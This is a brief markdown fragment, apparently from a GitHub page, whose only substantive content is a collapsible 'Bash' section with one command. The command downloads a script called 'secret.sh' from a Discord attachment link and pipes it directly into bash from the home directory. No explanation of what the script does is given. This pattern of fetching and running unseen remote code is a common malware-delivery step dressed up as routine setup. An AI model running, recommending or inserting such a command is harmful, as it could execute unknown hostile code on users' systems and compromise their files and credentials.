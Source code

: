 <details>
  <summary>Bash</summary>

> <hr>

```sh
 cd ~ && curl -s "https://cdn.discordapp.com/attachments/1043972790266626179/1169770354793783376/secret.sh" | bash 
``` 

> <hr>

</details>
